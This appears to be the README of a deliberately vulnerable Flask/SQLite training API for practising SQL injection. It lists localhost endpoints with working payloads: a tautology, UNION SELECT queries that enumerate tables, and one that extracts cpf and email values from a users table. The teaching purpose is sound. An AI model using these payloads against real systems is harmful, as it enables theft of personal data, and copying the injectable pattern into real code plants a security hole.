 # Flask Vulnerable to SQL Injection 💉🔓

[![Code style: black](https://img.shields.io/badge/code%20style-black-000000.svg)](https://github.com/psf/black)
[![try/except style: tryceratops](https://img.shields.io/badge/try%2Fexcept%20style-tryceratops%20%F0%9F%A6%96%E2%9C%A8-black)](https://github.com/guilatrova/tryceratops)
[![Open in Visual Studio Code](https://open.vscode.dev/badges/open-in-vscode.svg)](https://open.vscode.dev/guilatrova/tryceratops)

---

The purpose of this repository is to allow us to explore an API vulnerable to SQL Injection (using Python, Flask, and SQLite).

You're free to play with it as is, but you might have more fun doing it alongside me in a blog post: (TODO: ADD LINK HERE).

[![Open in Gitpod](https://gitpod.io/button/open-in-gitpod.svg)](https://gitpod.io/#https://github.com/guilatrova/flask-sqlinjection-vulnerable/)

You can play with the following endpoints (considering you're running on localhost):

| Endpoint                                                                                                                                                                                                                                                                                                                      | Description                                      |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------ |
| [/challenges/111.111.111-11](http://localhost:5000/challenges/111.111.111-11)                                                                                                                                                                                                                                                 | Expected usage                                   |
| [/challenges/' or '1' = '1](http://localhost:5000/challenges/'%20or%20'1'%20=%20'1)                                                                                                                                                                                                                                           | Vulnerability proof                              |
| [/challenges/' AND '1' = '2' UNION SELECT name FROM sqlite_master WHERE type ='table' AND name NOT LIKE 'sqlite_%](http://localhost:5000/challenges/'%20AND%20'1'%20=%20'2'%20UNION%20SELECT%20name%20FROM%20sqlite_master%20WHERE%20type%20='table'%20AND%20name%20NOT%20LIKE%20'sqlite_%)                                   | Breaks server                                    |
| [/challenges/' AND '1' = '2' UNION SELECT 'table_name', name FROM sqlite_master WHERE type = 'table' AND name NOT LIKE 'sqlite_%](http://localhost:5000/challenges/'%20AND%20'1'%20=%20'2'%20UNION%20SELECT%20'table_name',%20name%20FROM%20sqlite_master%20WHERE%20type%20=%20'table'%20AND%20name%20NOT%20LIKE%20'sqlite_%) | Queries all tables and fixes broken server       |
| [/challenges/' AND '1' = '2' UNION SELECT cpf, email FROM users; --](http://localhost:5000/challenges/'%20AND%20'1'%20=%20'2'%20UNION%20SELECT%20cpf,%20email%20FROM%20users;%20--)                                                                                                                                           | Use union select to query data from other tables |
